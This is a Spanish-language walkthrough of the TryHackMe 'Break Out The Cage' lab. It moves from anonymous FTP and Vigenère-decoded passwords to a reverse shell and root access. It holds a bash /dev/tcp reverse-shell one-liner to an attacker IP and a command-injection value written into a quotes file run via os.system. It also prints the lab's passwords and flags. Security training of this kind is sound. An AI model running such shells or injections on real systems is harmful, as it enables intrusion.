**Solución CTF  -  Break Out The Cage**

**CTF de Try Hack Me, paso a paso con explicación de técnicas de
enumeración, explotación y post-explotación en Linux.**



**La IP objetivo será: 10.201.111.23**



Se realizó un escaneo con Nmap utilizando las opciones **-sV** para
identificar versiones de servicios y **-sC** para ejecutar scripts por
defecto. Como resultado, se identificó que el servicio FTP permite
**login anónimo** y cuenta con un archivo "**dad_tasks**" con permisos
de lectura. (Comando: **nmap -sV -sC -p 10.201.111.23**).

Se realiza una conexión ftp con el user: anonymous y password:
anonymous.
Comando: ftp 10.201.111.23



Se descarga el archivo con el comando: "**get dad_tasks**" para
revisarlo.


Se verifica que este descargado en el directorio de Kali y se visualiza
con el comando: "**cat dad_tasks**" el contenido que está codificado en
base 64.


Se decodifica con el comando: **cat dad_tasks \| base64 -d**, sin
embargo aparece un texto no
legible.


Se utiliza la URL: **<https://www.dcode.fr/vigenere-cipher>** para
decodificarlo, en la parte derecha se copia todo el texto y damos click
en "AUTOMATIC DECRYPTION", en la parte izquierda se visualiza el texto
legible, la cual se muestra la contraseña:
**Mydadisghostrideraintthatcoolnocausehesonfirejokes**

Se prueba el acceso ssh con el usuario: Weston y la contraseña:
**Mydadisghostrideraintthatcoolnocausehesonfirejokes,** el usuario
Weston fue dada en el mismo CTF, la cual se validó que era su
contraseña.

**Comando: ssh <weston@10.201.111.23>**




Se ejecuta el comando **sudo -l** para verificar qué comandos o rutas
puede ejecutar el usuario con privilegios de
sudo.


Se ejecuta dicha ruta como prueba y solo nos muestra texto: "**AHHHHHHH
THEEEEE BESSSSSSSSSS !!!!!!".**

Se puede ejecutar el comando como root, pero no se puede editar, no se
puede escalar privilegios por ahí, sin embargo usa wall pero con un
mensaje fijo.



Se verifica que usuarios existen en el sistema: **cage** y **Weston,**
con el comando: **ls /home**

Se realiza una búsqueda de archivos que le pertenecen al usuario:
**cage**, y se encuentran 2 archivos:
**/opt/.dads_scripts/spread_the_quotes.py**
y **/opt/.dads_scripts/.files/.quotes**, con el comando: **find / -type
f -user cage 2\>/dev/null**



Se revisó el contenido del archivo
"**/opt/.dads_scripts/spread_the_quotes.py**" y se visualiza el texto
"**os.system()**" la cuál es una función de Python que ejecuta comandos
en la terminal del sistema operativo, además el parámetro "**wall**" que
aparece en la ruta **/usr/bin/bees**, comando: **cat
/opt/.dads_scripts/spread_the_quotes.py**



Se revisó el contenido del archivo
"**/opt/.dads_scripts/.files/.quotes**" y se observa textos legibles,
comando: **cat /opt/.dads_scripts/.files/.quotes**



Se observa que se tiene privilegios para leer, modificar, pero no para
ejecutar ese archivo, con el comando: **ls -la
/opt/.dads_scripts/.files/.quotes**

Se crea un archivo de nombre "reverse_shell.sh" dentro de /tmp/:

Comando: **vim /tmp/reverse_shell.sh**, luego se agrega:

**#!/bin/bash**

**/bin/bash -c \"bash -i \>& /dev/tcp/10.201.97.182/4444 0\>&1\",** aqui
va la IP del Kali.



Se da privilegios al archivo creado con el comando: **chmod +x
/tmp/reverse_shell.sh**



Se modifica el contenido del archivo
"**/opt/.dads_scripts/.files/.quotes**" con el comando: **echo \";
/tmp/reverse_shell.sh\" \> /opt/.dads_scripts/.files/.quotes**, luego se
verifica que se realizó el cambio, con el comando: **cat
/opt/.dads_scripts/.files/.quotes**



Se ejecuta el comando: **sudo /usr/bin/bees**, debido a que el script
usa **wall**, con el fin de ejecutar posteriormente el archivo
"**/opt/.dads_scripts/.files/.quotes**" y en este último tiene el script
agregado para reverse_shell.

En otra terminal, se abre un puerto de escucha en el puerto 4444 usando
Netcat. Comando: **nc -lvnp 4444 y** luego de unos segundos se consigue
el acceso con el usuario **cage**.



Se visualizan los archivos que tiene en el directorio actual, comando:
**ls**



Se revisa el contenido del archivo "**Super**\_**Duper_Checklist**",
comando: **cat Super_Duper_Checklist** y se encuentra el 1er Flag:
**THM{M37AL_0R_P3N_T35T1NG}**

Se dirige a la carpeta "**email_backup**" con el comando: **cd
email_backup**



Luego se visualiza que hay 3 correos. Comando: **ls**



Se visualiza el contenido del correo "**email_3**", con el comando:
**cat email_3,** donde se encuentra el String:
"**haiinspsyanileph**"

En la Plataforma de cyberchef: <https://gchq.github.io/CyberChef/>, en
el lado derecho se copia el string y en la parte izquierda se decodifica
desde Vigenere con la palabra clave: **FACE**, la cuál esta última se
repite constantemente. Obteniendo el password "**cageisnotalegend**" del
usuario root.




Se acceder al usuario **root** y se ingresa el password, obteniendo asi
el acceso a root, comando: **su root**



Se dirige a la carpeta **/root**, luego se ingresa a la carpeta
"**email_backup**", comandos: **cd /root, ls y cd email_backup**





Dentro se encuentran 2 correo, se visualiza el contenido del correo
"**email_2**", con los comandos: **ls y cat email_2,** donde se
encuentra la 2da Flag: **THM{8R1NG_D0WN_7H3_C493_L0N9_L1V3_M3}**





Eso es todo xd, estaré subiendo mas soluciones de CTF en los siguientes
días, comenten si quiere que resuelva un CTF en especifico.
